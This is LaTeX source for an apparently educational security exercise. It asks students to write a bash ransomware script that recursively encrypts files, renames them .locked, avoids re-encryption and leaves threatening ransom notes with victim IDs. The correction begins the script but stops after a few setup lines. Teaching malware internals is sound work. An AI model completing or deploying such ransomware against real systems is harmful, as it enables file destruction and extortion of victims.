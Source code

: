 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[CryptoShell Project --- Educational Ransomware]
\begin{rappel}
\medskip
\textbf{Text diagram before/after appending infection:}
\begin{lstlisting}[numbers=none,frame=none,backgroundcolor=\color{white},language={}]
BEFORE:                    AFTER:
+------------------+       +------------------+
| Host code        |       | Host code        |
| (original)       |       | (original)       |
+------------------+       +------------------+
                            | Viral code       |
                            | (appended)       |
                            +------------------+
\end{lstlisting}

\medskip
\textbf{Anti-reinfection:} A virus must avoid reinfecting an already-infected file. Strategies: marker (signature), tail comparison, execution test.
\end{rappel}

\begin{enumerate}
\item[\textbf{3a)}] Write \texttt{cryptoshell.sh} that: (1) generates a random key, (2) recursively traverses a target directory, (3) encrypts each \texttt{.txt} and \texttt{.dat} file found, (4) renames to \texttt{.locked}, (5) deposits a \texttt{RANSOM\_NOTE.txt} file in each directory containing encrypted files.

\item[\textbf{3b)}] Add an \textbf{anti-reinfection} mechanism: the script must NOT re-encrypt an already \texttt{.locked} file. Implement this check.

\item[\textbf{3c)}] The ransom note must contain: a threatening message, a unique victim identifier (randomly generated), and (fictitious) instructions. Write the \texttt{create\_ransom\_note()} function.

\item[\textbf{3d)}] \textbf{Theoretical question:} Compare the ransomware infection technique with the 3 classic virus techniques (overwriting, appending, companion). What are the fundamental similarities and differences?
\end{enumerate}

\begin{correction}

\textbf{3a+3b+3c)} The complete ransomware:
\begin{lstlisting}[title=cryptoshell.sh (phase3\_ransom.sh)]
#!/bin/bash
# CryptoShell — Phase 3: Propagation and Ransom
source xor_helper.sh
TARGET_DIR="${1:-.}"
KEY_FILE=".cryptoshell_key"
VICTIM_ID=$(head -c 8 /dev/urandom | xxd -p)


\end{lstlisting}
\end{correction}
\end{exercice}
\end{document}
